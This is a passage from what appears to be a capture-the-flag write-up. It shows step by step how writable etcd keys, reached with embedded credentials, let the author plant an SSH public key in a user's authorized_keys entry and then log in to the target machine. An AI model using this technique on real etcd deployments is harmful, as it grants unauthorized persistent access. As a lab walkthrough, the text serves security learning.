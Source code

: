 Checking the keys under the `/home` prefix.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 get --prefix "/home/" --keys-only
/home/ETSCTF/.ssh/authorized_keys
```

It is now evident that we have write access to that key.

We have to first start off by generating our ssh public keys.
```
mcsam@0x32:~/$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/mcsam/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/mcsam/.ssh/id_rsa
Your public key has been saved in /home/mcsam/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:edHyAMJkJm5XAUbl/7lEzMMvHnaMrTtrD8Gr54vyoY8 mcsam@0x32
The key's randomart image is:
+---[RSA 3072]----+
|    .+Oo=.       |
|   . =.+ . .     |
|    o . . + .    |
|   . .   o X     |
|        S o X    |
|         . o X   |
|          . @ =  |
|        .o B+B   |
|        E+=+O*.  |
+----[SHA256]-----+
```

Now we will write the public keys to the `/home/ETSCTF/.ssh/authorized_keys` key.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 put "/home/ETSCTF/.ssh/authorized_keys" < id_rsa.pub
OK
```

After doing this we can run  the `/usr/local/sbin/fetch_keys` script and then login into the machine using our private key.
```
mcsam@0x32:~/$ ssh -i id_rsa ETSCTF@10.0.160.122
Linux etceterad.echocity-f.com 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ETSCTF@etceterad:~$ id
uid=1000(ETSCTF) gid=1000(ETSCTF) groups=1000(ETSCTF)
```
